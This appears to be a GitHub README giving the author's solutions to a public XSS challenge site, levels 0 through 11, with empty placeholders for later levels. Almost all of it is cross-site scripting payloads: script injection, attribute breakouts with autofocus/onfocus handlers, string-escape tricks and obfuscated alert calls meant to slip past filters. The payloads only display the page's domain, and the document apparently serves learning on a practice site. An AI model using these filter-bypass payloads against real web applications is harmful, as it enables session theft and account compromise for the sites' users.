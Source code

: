 # Solutions of XSS Challenges of http://sudo.co.il/xss/
---
<p align="center">
  <img src="sudo.co.il.PNG">
</p>

---
**Our mission is to popup window with document.domain (sudo.co.il) *without any kind of user interaction* **
---
- Level 0
```javascript
<script>alert(document.domain)</script>
```

- Level 1
```javascript
"><script>alert(document.domain)</script>
```

- Level 2
```javascript
" autofocus onfocus="alert(document.domain)
```

- Level 3
```javascript
"autofocus/onfocus="alert(document.domain)
```

- Level 4
```javascript
"autofocus/onfocus="confirm&#40;document.domain&#41;
```

- Level 5.1
```javascript
'-alert(document.domain)-'
```

- Level 5.2
```javascript
\'-alert(document.domain);<!--
```

- Level 6
```javascript
\'-alert(document.domain);//
```

- Level 7
```javascript
" autofocus="" onfocus="alert(document.domain)
```

- Level 8
```javascript
"};this[8680439..toString(30)](document.domain);//
```

- Level 8.1
```javascript
"};this[8680439..toString(30)](document.domain);{"
```

- Level 9
```javascript
'};this[8680439..toString(30)](document.domain);{'
```

- Level 10
```javascript
';this[8680439..toString(30)](document.domain);//'
```
or,
```javascript
x';x=top["al"%2B"ert"](document.domain);//
```

- Level 11
```javascript
#<script>alert(document.domain)</script>
```
<!--
- Level 12
```javascript

```

- Level 13
```javascript

```

- Level 14
```javascript

```

- Level 15
```javascript

```

- Level 16
```javascript

```

- Level 17
```javascript

```

- Level 18
```javascript

```

- Level 19
```javascript

```
-->
